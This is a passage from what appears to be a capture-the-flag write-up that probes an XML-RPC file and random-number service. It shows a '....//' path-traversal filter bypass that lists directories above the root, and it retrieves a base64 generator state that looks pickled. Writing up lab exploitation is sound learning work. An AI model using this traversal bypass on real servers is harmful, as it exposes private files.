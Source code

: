 ```
>>> s.listdir('....//')
['fileserver', 'supervise', 'server.py', 'run']
```

This looks better - by removing "../" from "....//" we get "../" again, so we can list directories above the root. We know "fileserver" is where the files are, and "server.py" is probably the server code. Let's try reading it...

```
>>> s.read('....//server.py')
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/lib/python2.7/xmlrpclib.py", line 1224, in __call__
    return self.__send(self.__name, args)
  File "/usr/lib/python2.7/xmlrpclib.py", line 1578, in __request
    verbose=self.__verbose
  File "/usr/lib/python2.7/xmlrpclib.py", line 1264, in request
    return self.single_request(host, handler, request_body, verbose)
  File "/usr/lib/python2.7/xmlrpclib.py", line 1297, in single_request
    return self.parse_response(response)
  File "/usr/lib/python2.7/xmlrpclib.py", line 1473, in parse_response
    return u.close()
  File "/usr/lib/python2.7/xmlrpclib.py", line 793, in close
    raise Fault(**self._stack[0])
xmlrpclib.Fault: <Fault 1: "<type 'exceptions.ValueError'>:Hacking attempt detected! Your IP address has been traced, an FBI team will soon arrive to your location. Please stay where you are and wait for your arrest.">
```

Oops, this call doesn't have the bug! Well, we still have a service to explore...

```
>>> s = ServerProxy("http://target:12345/random", transport=t, allow_none=True)
>>> s.system.listMethods()
['getstate', 'random', 'seed', 'setstate', 'system.listMethods', 'system.methodHelp', 'system.methodSignature']
```

Looks like a pseudo random generator.

```
>>> s.random()
0.891038931836746
>>> s.random()
0.45602713966818337
>>> s.random()
0.9581700716673957
>>> s.random()
0.22924179661741917
```

Indeed. Let's try out getstate()...

```
>>> s.getstate()
'KEkxCihJNDkzOApJMjc0NDYKSTQ4NjcKdHAxCk50Lg==\n'
```
